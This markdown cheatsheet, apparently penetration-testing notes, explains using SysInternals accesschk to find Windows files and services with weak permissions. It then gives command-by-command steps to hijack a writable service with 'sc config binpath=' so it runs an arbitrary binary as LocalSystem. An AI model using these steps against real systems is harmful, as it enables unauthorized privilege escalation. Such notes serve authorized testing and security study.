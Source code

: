 ## Access Check by SysInternals

Works with Windows XP, but use older version for low level shells.

Download from:  https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

Or get from the suite - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite

### Low Level Shells 

In a low level shell, you need a way to bypass the EULA.  To do this, download an older version of accesschk (that allows the accepteual option from the CLI) from [here](https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip%0D) or [here](https://xor.cat/assets/other/Accesschk.zip) and use the following syntax:

```bash
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

/accepteula		# Accepts the EULA...shocking
```

### Cheatsheet

#### Files with insecure permissions

```powershell
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"

-u	# Suppress errors
-w	# Write access
-s	# Recursive search
```

#### Vulnerable Services (Windows XP1 Example)

Vulnerable Services can provide a pathway to run an executable as the SYSTEM user by finding a writable existing service running as system and modifying it to point to another executable.

1. Find vulnerable services (those with SERVICE_ALL_ACCESS)

   ```powershell
   accesschk.exe /accepteula -uwcqv "Authenticated Users" *
   ```

2. Examine permissions of any services found:

   ```bash
   accesschk.exe /accepteula -ucqv SERVICE_NAME
   ```

3. Examine the parameters of the services

   ```powershell
   sc qc SERVICE_NAME
   ```

4. And show the status of a service

   ```powershell
   sc query SERVICE_NAME
   ```

5. Pay particular attention to any dependencies, the start_types and current state.  Make any necessary changes, such as changing the start type or starting up dependencies:

   ```powershell
   # Set a service to start automatically.  
   # NOTE: The space after the `=` sign MUST be there
   sc config SERVICE_NAME start= auto
   
   # Start a service
   net start SERVICE_NAME
   ```

6. Modify the target service to point to the desired binary and if needed, change it to start as the SYSTEM user:

   ```bash
   # Change binary for service
   sc config SERVICE_NAME binpath= "C:\YOURBIN.exe [OPTIONS] [ARGUMENTS]"
   
   # Set service to start as the SYSTEM user
sc config SERVICE_NAME obj= ".\LocalSystem" password= ""
   ```
   
   

